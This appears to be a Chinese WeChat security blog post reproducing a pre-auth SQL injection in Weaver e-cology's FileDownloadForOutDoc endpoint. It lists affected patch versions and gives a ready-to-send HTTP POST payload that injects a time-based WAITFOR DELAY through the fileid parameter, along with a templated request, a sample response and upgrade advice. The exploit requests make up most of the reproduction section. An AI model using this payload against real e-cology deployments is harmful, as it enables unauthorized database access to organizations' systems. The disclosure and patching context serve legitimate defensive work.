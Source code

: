 #  泛微OA e-cology FileDownloadForOutDoc前台SQL注入漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#sql 1 个

#复现 24 个

#漏洞 33 个

#漏洞复现 39 个

#泛微 1 个

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

 **漏洞说明**

        泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。

        泛微e-cology FileDownloadForOutDoc 未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

 **影响版本**

  *   * 

    
    
     部分e-cology 8且补丁版本<10.58.0部分e-cology 9且补丁版本<10.58.0

 **漏洞复现**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180548.png)

payload：  

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid=3+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1

请求包：  

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid={everything}+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1

响应包：  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKServer: WVSCache-Control: privateX-Frame-Options: SAMEORIGINX-XSS-Protection: 1Set-Cookie: ecology_JSessionid=aaag6HUJ_5F8Y8MrDt2Ky; path=/Content-Length: 0Connection: closeDate: Tue, 11 Jul 2023 12:54:14 GMT  
      
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180550.png)

 **修复建议**

目前官方已发布安全补丁，建议受影响用户尽快将补丁版本升级至10.58及以上。https://www.weaver.com.cn/cs/securityDownload.asp#

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

